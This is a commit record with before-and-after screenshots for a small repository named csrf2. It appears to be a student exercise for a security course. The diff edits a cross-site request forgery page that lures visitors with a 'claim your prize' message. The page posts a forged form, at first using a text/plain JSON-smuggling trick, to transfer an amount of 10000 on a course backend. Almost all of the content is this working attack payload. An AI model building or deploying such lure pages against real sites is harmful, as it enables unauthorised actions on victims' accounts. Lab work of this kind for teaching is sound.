

Before and after one commit to loki52501/csrf2, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
make it anothe rone

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,21 @@
 <html>
 <body>
-  <h1>Click to claim your prize!</h1>
+  <h1>Claim Your Reward!</h1>
+  <p>Please provide your details to proceed:</p>
   <form action="https://cse543.aranjbar.me/backend/tfourtwo" method="POST" enctype="text/plain">
-    <input type="hidden" name='{"username":"ljl5837","fname":"lks","amount":"10000","comment":"what\'s your name"}'>
-    <button type="submit">Claim Prize</button>
+
+    <input type="hidden" id="username" name="username" value="ljl5837"><br><br>
+
+    <label for="fname">First Name:</label>
+    <input type="text" id="fname" name="fname" value="lks"><br><br>
+
+    <label for="amount">Amount:</label>
+    <input type="number" id="amount" name="amount" value="10000"><br><br>
+
+    <label for="comment">Comment:</label>
+    <input type="text" id="comment" name="comment" value="what's your name"><br><br>
+
+    <button type="submit">Submit</button>
   </form>
 </body>
 </html>
```
